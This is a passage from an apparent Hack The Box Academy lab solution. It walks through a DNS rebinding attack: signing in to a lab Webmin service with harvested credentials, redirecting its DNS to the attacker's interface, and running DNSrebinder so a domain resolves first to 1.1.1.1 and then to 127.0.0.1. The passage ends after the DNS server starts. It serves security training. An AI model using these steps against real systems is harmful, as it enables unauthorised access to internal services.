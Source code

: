 ![[HTB Solutions/CWEE/z. images/a38c8e60b29693169cfc45065b50f97c_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/a7afddda12898092177f71e1ab27e8e3_MD5.jpg]]

However, the web application is vulnerable to DNS rebinding.

From the previous question, students have harvested the credentials `admin:AdM1N@v@uL1` for the Webmin service; therefore, they need to navigate to `webmin.inlanefreight.local:10000` and sign in:

![[HTB Solutions/CWEE/z. images/0a75e0163eaaa762793445b0af9943b1_MD5.jpg]]

Subsequently, students need to navigate to `Networking` ---> `Network Configuration` ---> `Hostname and DNS Client`:

![[HTB Solutions/CWEE/z. images/487cc21477ee9d7f7b084a0fea100dde_MD5.jpg]]

For the `DNS servers` field under `DNS Client Options`, students need to set its value to be that of the interface `tun0`:

```shell
ip -o -4 a show tun0 | cut -d " " -f 7
```
```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ ip -o -4 a show tun0 | cut -d " " -f 7

10.10.15.119/23
```

![[HTB Solutions/CWEE/z. images/0389cea069463ec63758b9e0c1faa92a_MD5.jpg]]

Afterward, students need to install [DNSrebinder](https://github.com/mogwailabs/DNSrebinder.git) to be able to perform the DNS rebinding attack:

```shell
git clone https://github.com/mogwailabs/DNSrebinder.git
cd DNSrebinder/
python3 -m venv DNSrebinder
source DNSrebinder/bin/activate
pip3 install -r requirements.txt
```
```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ git clone https://github.com/mogwailabs/DNSrebinder.git
cd DNSrebinder/
python3 -m venv DNSrebinder
source DNSrebinder/bin/activate
pip3 install -r requirements.txt
<SNIP>
```

Using `dnsrebinder.py`, students need to start a DNS server and make it resolve a domain name (`google.com` used here) to `1.1.1.1` for the first request and then to `127.0.0.1` for any subsequent ones:

```shell
sudo python3 dnsrebinder.py --domain google.com --ip 1.1.1.1 --rebind 127.0.0.1 --counter 1 --tcp --udp
```
```shell
(DNSrebinder) ┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~/DNSrebinder]
└──╼ [★]$ sudo python3 dnsrebinder.py --domain google.com --ip 1.1.1.1 --rebind 127.0.0.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
```

